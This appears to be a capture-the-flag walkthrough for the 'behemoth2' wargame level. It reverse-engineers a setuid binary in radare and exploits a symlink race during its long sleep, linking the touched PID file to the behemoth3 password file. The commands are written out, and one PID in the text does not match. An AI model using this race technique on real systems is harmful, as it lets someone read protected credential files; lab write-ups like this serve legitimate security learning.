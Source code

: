 OK so we can see the pointer to the string "touch %d" occur at 0x080485f5 and the function `int getpid(void)` occurring at 0x080485d9. So it seems the program is indeed creating a file of the program's current PID. We see another call `void lstat(const char *path, void *buf)` not much further down. Looking up this system call, it appears to return status information about a symbolic link...

I think that's a pretty big hint. OK so how about we try running the program in debug mode and set a breakpoint right before lstat is called. We can then use another terminal to delete the file it touched and create a symbolic link with the name of our debugging process and point it to "/etc/behemoth_pass/behemoth3". Let's then see if the program jumps to 0x08048659 or continues after lstat without jumping.

From starting up radare, we see the process is assigned PID 17914. Let's set our breakpoint, hit it, then perform the symbolic link swap before running more.

Debug terminal:
```bash
[0xf7fdaa20]> db 0x08048618
[0xf7fdaa20]> db 0x08048659
[0xf7fdaa20]> db 0x08048629
[0xf7fdaa20]> dc
hit breakpoint at: 8048618
```

Second terminal:
```bash
behemoth2@behemoth:/tmp/smhbehemoth2$ ln -s /etc/behemoth_pass/behemoth3 17835 
behemoth2@behemoth:/tmp/smhbehemoth2$ ls
17835
behemoth2@behemoth:/tmp/smhbehemoth2$ 
```

Original debug terminal:
```bash
hit breakpoint at: 8048629
[0x08048618]> 
```

So it seems we didn't jump. Therefore, we can conclude we will jump if the symbolic link doesn't exist. Since if we don't jump the `unlink` function is called, let's explore the jump route. Immediately we see a `sleep` call with a value pushed to the stack that equals 2000...

2000 seconds of sleep! That's about 30 minutes. It looks like it will call system() once the sleep has finished with setreuid before that. Let's try to do the delete and symbolic link after the lstat and during the sleep call. Once the sleep is done perhaps we will get lucky and it'll display the contents of the link (behemoth3 password). 

Console running executable:
```bash
behemoth2@behemoth:/tmp/smhbehemoth2$ rm * 
behemoth2@behemoth:/tmp/smhbehemoth2$ /behemoth/behemoth2 

```

While behemoth2 is sleeping in another terminal:
```bash
behemoth2@behemoth:/tmp/smhbehemoth2$ ls -l
total 0
-rw-rw-r-- 1 behemoth3 behemoth2 0 Feb 24 03:29 18128
behemoth2@behemoth:/tmp/smhbehemoth2$ rm 18128
behemoth2@behemoth:/tmp/smhbehemoth2$ ln -s /etc/behemoth_pass/behemoth3 18128
```
